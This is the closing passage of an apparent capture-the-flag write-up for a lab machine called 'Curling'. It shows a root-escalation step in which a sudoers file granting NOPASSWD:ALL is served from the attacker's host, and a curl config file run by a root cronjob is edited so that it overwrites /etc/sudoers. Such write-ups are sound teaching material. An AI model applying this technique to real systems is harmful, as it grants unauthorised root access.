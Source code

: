 ```
# User privilege specification
root	ALL=(ALL:ALL) ALL
floris	ALL=(ALL) NOPASSWD:ALL
```

I served it with ``python -m SimpleHTTPServer 8001`` and changed the contents of ``input`` to:

```
url = "http://10.10.15.185:8001/sudoers"
output = "/etc/sudoers"
```

*Getting root user*

![Img](/assets/posts_details/Curling/images/root_user.png "Img")

Seeing the ``default.txt`` file arose my curiosity, so I decided to check the cronjob thing with ``crontab -l``:

*cronjob*

![Img](/assets/posts_details/Curling/images/cronjob.png "Img")

It turns out that ``curl`` can have a ``-K`` flag which supplies a configuration file. I didn't know that!

And that's all! I hope you enjoyed and learnt something useful!

---
<center><i>Diego Bernal Adelantado</i></center>
